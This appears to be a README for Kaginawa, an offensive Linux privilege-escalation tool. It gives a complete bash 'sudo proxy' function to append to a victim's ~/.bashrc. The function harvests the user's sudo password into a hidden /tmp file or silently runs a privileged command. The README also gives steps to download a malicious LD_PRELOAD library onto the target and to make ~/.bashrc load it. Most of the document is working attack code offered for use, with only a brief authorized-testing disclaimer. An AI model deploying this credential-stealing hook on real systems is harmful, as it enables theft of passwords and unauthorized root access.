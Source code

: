 # Kaginawa

A hook for helping privilege escalation

## Scenario

You have code execution on an linux account with sudo privileges but cannot find a privilege escalation exploit.

A common technique in this case is creating a "sudo proxy", which is basically a function that wraps the sudo command to capture the user's credentials or execute a privileged action.

For example, the following function can be appended to the ~/.bashrc:

```bash
REAL_SUDO=$(which sudo)
ACTION=""

sudo() {
  for ((i=0; i<3; i++)); do
    echo -n "[sudo] password for $USER: "
    read -s user_pass
    echo ""

    # Validate password
    echo "$user_pass" | $REAL_SUDO -S -v >/dev/null 2>&1
    if [ $? -ne 0 ]; then
      echo "Sorry, try again."
    else
      # Run ACTION if defined
      if [ -n "$ACTION" ]; then
        echo "$user_pass" | $REAL_SUDO -S "$ACTION" >/dev/null 2>&1 &
      else
        echo "$user_pass" >> /tmp/.X1027-lock
      fi

      # Run original command
      echo "$user_pass" | $REAL_SUDO -S -- "$@"
      break
    fi
  done
}
```

The same attack can be performed using LD_PRELOAD hooks. Kaginawa hooks Bash's execve wrapper and runs a custom command stored in "fake_argv".

- First Step: Drop kaginawa into target system. For example:

```bash
wget https://example.com/kaginawa.so
```

- Second Step: Infect ~/.bashrc

```bash
echo 'LD_PRELOAD=/full/path/to/kaginawa.so bash' >> ~/.bashrc
```

- Third Step: Patience

## Disclaimer

This tool was developed for authorized adversary simulations and penetration testing in controlled environments. 
It is intended for use only on systems you own or have explicit permission to test. 
Use responsibly and at your own risk.
